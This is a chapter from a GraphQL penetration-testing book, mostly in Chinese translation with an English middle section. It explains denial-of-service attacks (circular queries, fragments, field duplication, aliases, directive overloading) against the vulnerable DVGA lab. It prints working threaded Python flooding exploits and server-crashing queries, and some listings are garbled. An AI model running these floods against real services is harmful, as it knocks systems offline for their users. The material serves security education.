










## 5

## 拒绝服务



DoS 问题是当前 GraphQL 中最普遍的漏洞类别之一。在本章中，你将了解 GraphQL 的声明式查询语言如何也成为其阿喀琉斯之踵。我们将识别执行 DoS 攻击的机会，如果应用程序开发人员未实施有效的安全对策，这些攻击可能会耗尽服务器资源。

虽然 DoS 漏洞在渗透测试报告或赏金计划中并不常被归类为关键漏洞，但它们在 GraphQL 应用程序中足够常见，因此从攻击者和防御者角度都了解它们很重要。

## GraphQL DoS 向量

GraphQL 的旗舰特性之一是其声明式查询语言，允许客户端从服务器请求非常复杂的数据结构。这种能力使客户端处于强势地位，因为客户端可以选择服务器应返回的响应。鉴于这种能力，GraphQL 服务器必须有能力保护自己免受来自不可信客户端的恶意查询。如果客户端可以构造服务器难以满足的查询，它可能会使服务器资源枯竭。此类攻击可能会通过导致停机或降低服务器性能来影响应用程序的可用性。

在 GraphQL 世界中，几种 DoS 向量可能导致资源耗尽条件：循环查询（也称为递归查询）、字段重复、别名过载、指令过载、循环片段和对象限制覆盖。在本章中，你将了解每种漏洞、如何在渗透测试期间对其进行测试，以及如何使用 DoS 漏洞利用代码来滥用它们。在本章末尾，我们将讨论尝试缓解这些威胁的安全控制。

通用弱点枚举（CWE）系统将这些类型的 DoS 向量归类为不受控资源消耗。滥用这些向量可能会导致中央处理器（CPU）周期过度消耗、服务器内存使用量显著增加，或磁盘空间被填满，从而阻止其他进程写入文件系统。以下是客户端如何构造查询来触发这些条件的几个示例：

- 客户端发送包含一个复杂查询的单个请求。
- 客户端发送包含多个复杂查询的单个请求。
- 客户端发送多个并行请求，每个请求包含一个复杂查询。
- 客户端发送多个并行请求，每个请求包含多个复杂查询。
- 客户端从服务器请求大量对象。

某些 DoS 向量部分是由于某些 GraphQL 实现中的附加功能而可能发生的，这些功能作为基础安装包的一部分或作为附加库引入，而其他向量存在于原生 GraphQL 能力中。

## 循环查询

也称为递归查询，循环查询发生在 GraphQL 模式中的两个节点通过边双向引用时。这种循环引用可能允许客户端构建一个复杂查询，迫使服务器在每次查询完成一个“循环”时返回指数级大的响应。

在本节中，我们将深入研究循环关系以及它们在 GraphQL 模式中的表现。我们将使用多个工具，如模式可视化器 GraphQL Voyager、Altair、InQL 和 GraphQL Cop 来识别有风险的设计模式并测试目标应用程序是否存在这些漏洞。

### GraphQL 模式中的循环关系

GraphQL 的 SDL 允许我们定义多个类型来表示应用程序的数据模型。这些类型可以以允许客户端在它们链接在一起时从一个类型“跳转”到另一个类型的方式相互连接。这种情况称为循环关系或循环引用。

例如，在之前的章节中，我们提到 DVGA 目标应用程序允许用户创建代码片段（称为 pastes）并上传到应用程序中。单个 paste 可能包含标题和一些内容（如代码或其他任意文本）。在 GraphQL 的 SDL 中，此信息可以如下表示：

```
type Paste {
  title: String
  content: String
}
```

就目前而言，此信息相当有限。如果我们想扩展应用程序，以便当客户端上传 paste 到应用程序时，我们可以识别是谁上传的，会怎样？例如，我们可以捕获有关上传者的一些元数据，如其 IP 地址或 User-Agent 字符串。

目前，我们的数据模型没有以允许我们在 API 中表示此类信息的方式构建，但扩展它是一个相当容易的过程。我们可以按如下方式向 Paste 对象添加额外字段：

```
type Paste {
  title: String
  content: String
  user_agent: String
  ip_address: String
}
```

实现此目标的另一种方式是解耦客户端元数据与 Paste 对象。我们可能出于多个原因想要这样做，例如更好的关注点分离以及能够独立于彼此扩展 GraphQL 类型。我们可以创建一个名为 Owner 的单独类型：

```
type Owner {
  ip_address: String
  user_agent: String
  name: String
}
```

我们现在有两个对象类型，Paste 和 Owner。如果我们想揭示给定 paste 的所有者，我们可以将两个类型链接在一起。我们可能会进行如下模式调整，以向 Paste 类型添加一个名为 owner 的字段，该字段引用 Owner 类型：

```
type Paste {
  title: String
  content: String
  user_agent: String
  ip_address: String
  owner: Owner
}
```

现在客户端可以请求有关 paste 的所有者信息，例如所有者的 IP 地址或 User-Agent。清单 5-1 显示了完整的示例模式。

```
type Paste {
  title: String
  content: String
  user_agent: String
  ip_address: String
  owner: Owner
}

type Owner {
  ip_address: String
  user_agent: String
  pastes: [Paste]
  name: String
}
```

清单 5-1：模式中的循环引用

两个对象类型 Paste 和 Owner 具有交叉引用的字段。Paste 对象类型具有引用 Owner 对象的 owner 字段，而 Owner 类型具有引用 Paste 类型的 pastes 字段。这创建了一个循环条件。

恶意客户端可以通过强制 GraphQL 服务器的函数解析器循环来导致递归。这可能会影响服务器的性能。以下查询示例显示了此类循环查询的外观：

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              name
            }
          }
        }
      }
    }
  }
}
```


这个查询执行起来很简单，但会从 GraphQL 服务器产生指数级增长的响应。查询中的循环越多，响应就越大。

循环关系在 GraphQL API 中很常见。在架构设计方面这并不是反模式，但除非应用程序能够优雅地处理复杂查询，否则应避免使用它们。

## 如何识别循环关系

识别循环查询通常需要对 GraphQL 架构有深入了解。在白盒渗透测试中，我们可能可以访问 SDL 文件。在黑盒渗透测试中，我们可能会很幸运地发现应用程序的开发人员已启用了 introspection。

无论哪种情况，你都应使用静态代码分析方法或将 introspection 查询的结果导入到诸如 GraphQL Voyager 之类的架构可视化工具中，来审查架构文件是否存在对象之间的双向关系。此外，某些专门的 GraphQL 安全工具，例如 InQL，会以更动态的方式尝试发现循环关系的存在，通过发现架构并分析其类型及其关系。

> NOTE 在第 6 章中，我们将讨论在 introspection 已被禁用的黑盒渗透测试中获取架构信息的方法，例如通过使用专门的 GraphQL 安全工具尝试重建它。

## 使用 Schema Definition Language 文件

让我们对示例 SDL 文件进行安全审查以识别异常。考虑本书 GitHub 仓库中的架构文件 https://github.com/dolevjf/Black-Hat-GraphQL/blob/master/ch05/sdl.graphql。该 SDL 文件是 DVGA 的架构表示，定义了所有查询、变更和订阅，其中还包括对象类型和字段。

通过复制它并将其保存为名为 sdl.graphql 的文件，将架构文件下载到你的实验机上。然后在文本编辑器中打开文件进行审查。在我们指出问题所在之前，请尝试找出导致双向对象关系的任何关系字段。

以下摘录显示了具有双向引用的对象：

```
type PasteObject {
  --snip--
  id: ID!
  ipAddr: String
```

```
burn: Boolean
① owner: OwnerObject
--snip--
}

type OwnerObject {
  id: ID!
  name: String
  ② paste: [PasteObject]
  --snip--
}
```

架构在 PasteObject 中定义了 owner 字段，其自定义类型为 OwnerObject ①。然后它定义了类型为 [PasteObject] 的 paste 字段 ②。方括号 [PasteObject] 表示 PasteObject 类型对象的数组。可以看出，这些对象相互交叉引用，使用这些类型的客户端可能会利用它们进行 DoS 攻击。

## 使用 GraphQL Voyager

小型 SDL 文件很容易审查。SDL 文件越大，识别反模式并手动审计安全问题就越具挑战性。让我们可视化一个架构，这种技术可以帮助我们在审计具有更复杂架构定义的较大应用程序时提供帮助。

将你之前下载的 SDL 文件上传到 GraphQL Voyager（托管在 http://lab.blackhatgraphql.com:9000 或，另选 https://ivangoncharov.github.io/graphql-voyager）上，方法是单击 Change Schema 按钮并将 SDL 文件复制到 SDL 选项卡下的框中。图 5-1 显示了 Voyager 如何说明 PasteObject 和 OwnerObject 对象之间的循环引用。



图 5-1：GraphQL Voyager 中的对象关系

GraphQL Voyager 突出显示自定义对象类型，例如 OwnerObject 和 PasteObject，并使用箭头指示对象关系。当你识别出此类关系时，在你执行测试以检查其抵御循环查询的能力之前，假设应用程序存在漏洞。

你也可以将 introspection 响应输出粘贴到 Voyager 中，以生成架构的相同可视化表示，就像我们在前几章中所做的那样。

## 使用 InQL

识别循环查询的另一种方法是使用 InQL 安全审计工具。我们在第 2 章的实验中安装了 InQL。InQL 的主要功能之一是能够自动检测循环关系。InQL 可以通过命令行读取 introspection 查询生成的 JSON 文件。或者，如果它支持 Introspection，它可以直接向目标 GraphQL 服务器发送 introspection 查询。

让我们使用 Altair 运行一个 introspection 查询。我们将响应保存到文件系统上的 JSON 文件中，以便 InQL 可以读取它、解析它并遍历架构以查找循环关系。

在你的实验机上，打开 Altair 并将地址栏中的 URL 设置为 http://localhost:5013/graphql。复制位于 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/queries/introspection_query.txt 的 introspection 查询并将其粘贴到 Altair 中（图 5-2）。然后单击 Send Request 将查询发送到 DVGA。



一旦返回成功的响应，通过单击 Altair 右下角的 Download 按钮以 JSON 格式下载响应。将文件保存为 /home/kali 下的 introspection_query.json。

接下来，打开终端。要执行循环查询检查，我们将向 InQL 传递三个标志：-f 标志，用于使用我们下载的 JSON 文件；--generate-cycles 标志，用于执行循环查询检测检查；以及 -o 标志，用于将输出写入专用文件夹。以下命令将这些标志组合起来执行循环查询检测：

```
# inql -f /home/kali/introspection_query.json --generate-cycles -o dvga_cycles
[!] Parsing local schema file
[+] Writing Introspection Schema JSON
[+] Writing query Templates
Writing systemUpdate query
Writing pastes query
[+] Writing mutation Templates
Writing createPaste mutation
[+] Writing Query Cycles to introspection_query
[+] DONE
```

检查完成后，你会注意到 InQL 创建了一个 dvga_cycles 文件夹。在此文件夹中，查找以单词 cycles 开头的文本文件；该文件将包含脚本执行的结果。你可以运行此命令来查看检查结果：

```
# cat dvga_cycles/introspection_query/cycles*

Cycles(
    { OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }
    { OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject }
)
```

InQL 能够找到架构中 PasteObject 和 OwnerObject 节点之间存在循环关系的路径。在内部，InQL 使用两种主要图算法遍历 JSON 文件：

- Tarjan 算法，以其发明者 Robert Tarjan 命名，用于在节点由边连接且每条边都有方向关联的图中查找循环关系。
- Johnson 算法，以其发明者 Donald B. Johnson 命名，用于查找图中每对节点之间的最短路径。

InQL 还可以通过直接连接到 GraphQL API 并获取 introspection 信息来运行相同的检查。为此，使用 -t 标志指定目标：

```
# inql -t http://localhost:5013/graphql --generate-cycles -o dvga_cycles
[+] Writing Introspection Schema JSON
[+] DONE
Writing pastes query
[+] Writing mutation Templates
Writing importPaste mutation
[+] DONE
[+] Writing Query Cycles to localhost:5013
```

-t 选项使我们能够在有要测试的主机列表时扩展此检查。列表 5-2 显示了如何将主机添加到名为 hosts.txt 的文件中。

```
# cd ~
# echo 'http://localhost:5013/graphql' > hosts.txt
# cat hosts.txt
http://localhost:5013/graphql
```

列表 5-2：包含目标 GraphQL 服务器的文件

列表 5-3 显示了如何编写 Bash 循环，通过读取 hosts.txt 文件来测试多个主机。

```
for host in $(cat hosts.txt); do
    inql -t "$host" --generate-cycles
done
```

列表 5-3：遍历目标主机并对每个主机运行 InQL 的 Bash for 循环

for 循环将逐行读取 hosts.txt 文件并将每一行分配给 host 变量。然后 InQL 将使用此变量作为其目标。这种技术使我们能够以自动化方式测试数十个 URL。

如果你尝试对大型应用程序运行 InQL，请考虑使用 --cycles-timeout 标志为循环检查设置超时。这将确保在目标架构规模较大时，应用程序在查找循环查询时不会挂起。

## 循环查询漏洞

现在你已经知道如何使用多种工具识别循环查询，让我们看看发送循环查询会对 DVGA 应用程序产生什么影响。我们将制作一个特殊的 GraphQL 查询，利用我们发现的循环关系执行深度递归请求。

成功的循环查询将导致服务器负载过重并可能使其崩溃。因此，测试循环查询可能存在风险。为了安全起见，我们将提供循环查询的安全版本和不安全版本。安全版本比不安全版本的循环性更少，因此你可以在实验环境中安全地尝试，而不会导致目标崩溃。

打开 Altair 并复制 safe-circular-query.graphql 文件的内容，文件位于 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/safe-circular-query.graphql。列表 5-4 显示了此查询。

```
query {
  pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
}
```

列表 5-4：GraphQL 中的递归查询


正如名称所示，safe-circular-query.graphql 是循环查询的安全版本。在此查询中，我们请求应用程序中所有粘贴内容的拥有者姓名，只是我们以循环的方式进行，这会指数级增加 GraphQL 服务器需要加载的对象数量。将查询粘贴到 Altair 中并在服务器上运行，以证明循环查询的概念。

> 注意 如果你感觉大胆并且好奇更复杂的循环查询会对我们的脆弱目标产生什么影响，你可以在 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql 找到该查询的不安全版本。此查询可能会导致 DVGA 实例崩溃，甚至可能导致 hypervisor 崩溃，因此请谨慎使用。

## 循环内省漏洞

GraphQL 内置的内省系统存在循环关系。因此，当启用内省时，你可能可以直接获得循环查询。

内省系统有自己的模式，定义在官方 GraphQL 规范文档中。以下是其摘录：

```
type __Schema {
  --snip--
  types: ① [__Type!]!
  queryType: __Type!
  mutationType: __Type
  subscriptionType: __Type
  directives: [__Directive!]!
  --snip--
}
```

```
type ② __Type {
  --snip--
  name: String
  description: String
  fields(includeDeprecated: Boolean = false): ③ [__Field!]
  --snip--
}
```

```
type ④ __Field {
  --snip--
  name: String!
  description: String
  args: [__InputValue!]!
  type: ⑤ __Type!
  isDeprecated: Boolean!
  --snip--
}
```

在 ① 处，`types` 字段为 `__Schema` 对象类型定义。你可以看到 `types` 被设置为 `[__Type!]`，这意味着它使用在 ② 处定义的 `__Type` 对象。方括号和感叹号意味着 `types` 字段将返回一个不可为空的 `__Type` 对象数组。

`__Type` 对象有一个在 ③ 处设置的 `fields` 字段，类型为 `[__Field!]`。这将返回一个包含 `__Field` 对象的不可为空数组。在 ④ 处，`__Field` 类型被定义。此类型有一个名为 `type` 的字段，在 ⑤ 处引用 `__Type` 对象。正如你所见，`__Type.fields` 与 `__Field.type` 之间存在循环关系。

> 注意
> 完整的内省系统模式可以在 GraphQL 规范文档中的 https://spec.graphql.org/October2021/#sec-Schema-Introspection.Schema-Introspection-Schema 找到。

你可以通过使用 Altair 运行以下查询轻松测试这种循环关系：

```
query {
  __schema {
    types {
      fields {
        type {
          fields {
            type {
              fields {
                name
              }
            }
          }
        }
      }
    }
  }
}
```

此类循环查询可以相当容易地被利用。虽然单个查询可能无法使服务器瘫痪，但一系列复杂查询可能会对其产生影响。

## 循环片段漏洞

GraphQL 操作可以通过使用片段来共享逻辑，如第 3 章所述。片段由客户端定义，因此客户端可以将其中的任何逻辑构建到其中。也就是说，GraphQL 规范文档包含有关片段应如何实现的规则，包括以下一条：

> 片段展开的图必须不形成任何循环，包括自身展开。否则，操作可能会无限展开或在底层数据的循环上无限执行。

让我们探索片段如何构建成循环并导致 DoS。在 DVGA 中运行以下查询，该查询在对象 PasteObject 上使用名为 Start 的片段。`pastes` 字段使用 `...Start` 语法利用此片段：

```
query {
  pastes {
    ...Start
  }
}

fragment Start on PasteObject {
  title
  content
}
```

执行查询时，它会返回 `pastes` 的字段和内容字段：

```
"pastes": [
  {
    "title": "My Title",
    "content": "My First Paste"
  }
]
```

现在，如果我们添加另一个名为 End 的片段，该片段使用 Start 片段，并修改 Start 片段以使用 End 片段，会发生什么？这里会出现一个有趣的情况：

```
query CircularFragment {
  pastes {
    ...Start
  }
}

fragment Start on PasteObject {
  title
  content
  ...End
}

fragment End on PasteObject {
  ...Start
}
```

此条件会导致无限执行，正如 GraphQL 规范所建议的那样。在实验室中尝试使用此查询进行实验。

注意 执行此查询将立即导致 DVGA 因段错误而崩溃。请确保仅在虚拟实验室中执行它。运行查询后，DVGA 将不再可用。要重新启动它，只需按照第 2 章的步骤创建另一个 Docker 容器即可。

如果你运行了查询，你应该会看到几乎立即崩溃！你可能会想，所有 GraphQL 服务器都容易受到此攻击吗？简短的答案是否定的，如果 GraphQL 服务器符合规范。GraphQL 服务器应该在执行前拒绝此类查询。尽管如此，你永远不知道在渗透测试中可能会遇到完全定制的实现，因此了解此技术是值得的。

## 字段重复

字段重复漏洞涉及包含重复字段的查询。它们执行起来很简单，但效果不如循环查询。

虽然循环查询是小型查询，但会导致异常大的响应，而字段重复是大型查询，会因为处理和解析所需的时间而耗尽服务器。为了有效地通过字段重复滥用 GraphQL API，你必须发送持续的查询流，以使服务器资源持续忙碌。

## 理解字段重复的工作原理

要了解字段重复的工作原理，请考虑以下 GraphQL 查询：

```
query {
  pastes {
    title
    content
  }
}
```

此查询返回应用程序中所有粘贴的 `title` 和 `content` 字段。当 GraphQL 收到此查询时，它将使用其查询解析器提供每个请求的字段。

如果我们在查询中“填充”额外的字段，GraphQL 将被迫分别解析每个字段。这种行为可能会给服务器带来额外负载，导致性能下降，甚至完全崩溃。

这里的策略相当简单：选择一个你认为解析可能很昂贵的字段，并用该字段名称的额外副本填充查询。清单 5-5 显示了一个示例查询。

```
query {
  pastes {
    title
    content
    content
    content
    content
    content
  }
}
```

清单 5-5：包含重复字段的 GraphQL 查询

当查询包含多个重复字段时，例如清单 5-5 中 `content` 重复五次，你可能会期望在响应中看到相同的五个字段。实际上，GraphQL 将合并响应并仅显示单个 `content` JSON 字段：

```
{
  "data": {
    "pastes": [
      {
        "title": "My Title",
        "content": "My First Paste"
      }
    ]
  }
}
```

从客户端角度来看，似乎 GraphQL 忽略了我们的重复字段。幸运的是，情况并非如此。通过响应时间分析，你可以看到查询对服务器的影响。除非服务器已实施特定的安全防御，例如查询成本分析（本章后面会介绍），否则你应该期望在大多数 GraphQL 实现中看到这些漏洞。

## 测试字段重复漏洞

为了在我们的实验室中测试字段重复攻击，我们将编写一个简单的查询并尝试重复几个选定的字段，看看我们的目标如何响应。

打开 Altair 并确保地址栏设置为 http://localhost:5013/graphql。在左侧窗格中输入以下查询，它将作为基线：

```
query {
  pastes {
    content
  }
}
```

点击发送以查询 GraphQL。在响应部分，你会注意到 Altair 提供了服务器响应的总时间，单位为毫秒，如图 5-3 所示。

DVGA 响应查询花费了 26 毫秒，这是一个正常的响应时间。你在实验室中看到的时间可能会有所不同，但应该在同一范围内。




Figure 5-3: The Altair response time indicator

Next, copy the query from https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/field-duplication.graphql, paste it into Altair, and run it. This query contains approximately 1,000 content fields. Figure 5-4 shows that processing this query took 958 milliseconds, which is 36 times slower!



Figure 5-4: A slower response time to a query with repeating fields

Some fields will require more resources to resolve, so the performance impact might vary depending on the chosen field.

This attack requires the client to continuously send large payloads. Attempting to manually exploit field duplication can be cumbersome. As an alternative method, you can use a special Python exploit that attempts to perform a field duplication attack at a far larger scale. Listing 5-6 shows a snippet of such an exploit. It sends a continuous stream of queries to a remote server in order to exhaust its resources.

```
THREADS = 50

① payload = 'content \n title \n' * 1000
② query = {'query':'query { \n ' + payload + '}'} 

③ def DoS():
    try:
        r = requests.post(GRAPHQL_URL, json=query)
        print('Time took: {} seconds '.format(r.elapsed.total_seconds()))
        print('Response:', r.json())
    except Exception as e:
        print('Error', e.message)

④ while True:
    print('Running...')
    time.sleep(2)
    for _ in range(THREADS):
        t = threading.Thread(target=DoS, args=())
        t.start()
```

Listing 5-6: A field duplication exploit

This code creates a dynamic payload variable ① with two duplicated fields: content and title. Each is repeated 1,000 times. At ② it concatenates the payload with the query JSON variable. It then defines a function named DoS that is responsible for sending the HTTP POST request containing our malicious GraphQL query ③. We run an infinite while loop that executes the DoS function using 50 threads every two seconds ④. The full exploit code can be found on GitHub at https://github.com/dolevjf/Black-Hat-GraphQL/blob/master/ch05/exploit_threaded_field_dup.py

You can download this exploit and run it against DVGA with the following command. Keep in mind that performance could degrade on your machine while it is running:

```
# python3 exploit_threaded_field_dup.py http://localhost:5013/graphql
```

Since the exploit uses an infinite loop, it won’t stop its operations on its own; you can halt it by pressing CTRL-C to send the SIGINT signal.

## Alias Overloading

In Chapter 3, you learned how to use aliases to rename duplicate fields so that the GraphQL server treats them as two different queries. The ability to run multiple queries in a single HTTP request is quite powerful. Security analysts could easily overlook these single requests when hunting for suspicious traffic (as could WAFs). After all, they might think, what harm can a single HTTP request possibly cause?

By default, GraphQL servers won’t limit the number of aliases that can be used in a single request. The GraphQL application maintainer could implement custom protections, such as counting the aliases and restricting them in some middleware, but since aliases are part of the specification, it’s uncommon to remove support for them or limit their functionality.

### Abusing Aliases for Denial of Service

When performing a penetration test, you may run into queries that seem to take the server longer to process than others. If you identify such a query, you can hog system resources by calling the same query over and over again. If the server struggles to quickly return a response, flooding the server with the same query could result in system overload.

In DVGA, one specific query is slower than others: systemUpdate. This query is designed to simulate long-running commands, such as those that perform system updates. Unauthorized clients should never be allowed to perform queries that change system state, but nothing is impossible in real-life penetration testing scenarios! Let’s run the systemUpdate query in Altair to see how long this command takes to fully process. It takes no arguments, as shown here:

```
query {
  systemUpdate
}
```

Send this query to the server and observe the time it takes for the server to return a response (Figure 5-5).



Figure 5-5: The systemUpdate query response time

The systemUpdate took 50,361 milliseconds to complete. That’s around 50 seconds, a significant amount of time by today’s web standards. This is an example of a query that we might be able to leverage for DoS purposes.

> NOTE
> In your lab, the response time to systemUpdate could be faster. DVGA randomizes its behavior when this query is used to simulate system load behavior.

Using GraphQL aliases, we can attempt to run systemUpdate a few times to see how the server behaves. Listing 5-7 shows how you can run systemUpdate more than once, using aliases.

```
query {
  one:systemUpdate
  two:systemUpdate
  three:systemUpdate
  four:systemUpdate
  five:systemUpdate
}
```

Listing 5-7: Aliasing the systemUpdate query

Running this query in Altair should take longer than normal to complete.

If you need to generate hundreds of queries, you can use a short Python script in the terminal to craft a query programmatically, as shown in Listing 5-8.

```
# python3 -c 'for i in range(0, 10): print("q"+str(i)+":"+"systemUpdate")'
q0:systemUpdate
q1:systemUpdate
q2:systemUpdate
```

Listing 5-8: Generating aliases with Python

Remember: there are no limits to the number of aliases a client can provide by default, unless the application maintainer has implemented specific protections against these types of attacks or the web server has set HTTP body length limits. That means we could specify dozens of aliases and hog server resources in a single HTTP request.

Other interesting, non-DoS use cases exist for aliases when it comes to penetration testing, such as defeating authentication mechanisms. You'll learn more about those in Chapter 7.

### Chaining Aliases and Circular Queries

Since aliases are part of the GraphQL specification, any other vulnerability you identify can be combined with aliases. The query in Listing 5-9 shows how we can run a circular query with an alias.

```
query {
  q1:pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
  q2:pastes {
    owner {
      pastes {
        owner {
```

```
name
    }
    }
    }
}
```

Listing 5-9: Circular queries with aliases

This query is not recursive enough to cause any harm to a GraphQL server, but it illustrates the possibility of making more than one circular query in a single GraphQL document.

The disadvantage of aliases is that they allow aliasing only queries of the same root type. You can alias queries only with queries, or mutations only with mutations, but not queries and mutations together.

## Directive Overloading

Chapter 3 covered GraphQL directives, which are a way to decorate a field or object in GraphQL by using the at (@) symbol. While directives are part of the GraphQL specification, the specification does not discuss security controls that should be implemented for directives. In general, GraphQL implementations check whether the client repeats a query directive; if so, the server rejects the query. Typical checks on directives are the following:

- UniqueDirectivesPerLocation ensures that unique directives are in each document location, such as a field.
- UniqueDirectiveNames ensures that directives have unique names if more than one is supplied in a location such as a field.

However, nonexistent queries can be supplied many times. There are effectively no limits to the number of nonexistent directives a client can supply in most of the popular GraphQL implementations today.

Our research has shown that it's possible to exhaust GraphQL servers' query parsers by passing a large number of nonexistent directives in a single query. During our responsible disclosure process for this directive overloading vulnerability, we engaged with multiple GraphQL developers on the matter. Opinions on whether it's the maintainers' or consumers' responsibility to address the flaw varied quite a bit. Companies that were part of the disclosure process and chose to address it did so by limiting the number of directives a server will accept or blocking the query based on its HTTP request body's size.

### Abusing Directives for Denial of Service

The directive overloading vulnerability is somewhat similar to field duplication in that it requires us to send many directives via several continuous requests. Despite requiring more computing power than a vulnerability like circular queries, we've found it to be effective at degrading the server's performance.


攻击相当简单：在查询的多个部分中填充指令并将其发送到服务器，如清单 5-10 所示。

```
query {
  pastes {
    title @aa@aa@aa # add as many directives as possible
    content @aa@aa@aa@aa
  }
}
```

清单 5-10：指令过载的示例

对服务器的影响可能因其硬件规格而异。我们在使用这种利用技术时观察到不同的服务器行为，例如 GraphQL 服务器崩溃（由于数据库内存错误）或服务性能下降。

## 测试指令过载

本书 GitHub 仓库中的利用程序 https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py 利用了这种类型的漏洞，可以针对 DVGA 执行指令过载攻击。

在运行此脚本的任何时候，都可以通过按 CTRL-C 发送 SIGINT 信号来停止其操作。请注意，在脚本运行期间，DVGA 很可能会变慢或无响应。

以下命令从命令行运行利用程序：

```
# python3 exploit_directive_overloading.py http://localhost:5013/graphql 30000
```

清单 5-11 显示了主要的利用代码。

```
URL = sys.argv[1]
FORCE_MULTIPLIER = int(sys.argv[2])

def start_attack():
    payload = '@dos' * FORCE_MULTIPLIER
    query = {'query': 'query { __typename ' + payload + ' }'}
    try:
        r = requests.post(URL, json=query, verify=False)
        print('\t HTTP Response', r.text)
        print('\t HTTP Code: ', str(r.status_code))
    except:
        pass

threads = []

while True:
    time.sleep(2)
    start = time.time()
    start_attack()
    print(f'\tTime request took: {time.time() - start}')

for i in range(300):
```

```
t = threading.Thread(target=start_attack)
threads.append(t)
t.start()

for t in threads:
    t.join()
```

清单 5-11：滥用指令过载漏洞的利用代码

利用程序从命令行接受两个参数，一个用于标识目标 API，另一个用于在利用期间填充到查询中的指令数量。作为 `start_attack` 函数的一部分，我们将 `dos` 指令乘以提供的指令数量。然后我们构建将使用恶意负载的 GraphQL 查询并创建 300 个线程，每个线程并行运行 `start_attack` 函数。这通过使用无限 `while` 循环使服务器资源在利用运行期间保持繁忙。

NOTE 利用程序中指定的指令不必存在于 GraphQL 中才能工作。你可以指定任意文本并在其前面加上 @ 符号。

## 对象限制覆盖

GraphQL 服务器默认可以实现对返回给客户端的数据量的限制。对于返回数组的字段来说尤其重要。例如，回顾一下，在 DVGA 中，`pastes` 查询返回一个粘贴对象数组：

```
type Query {
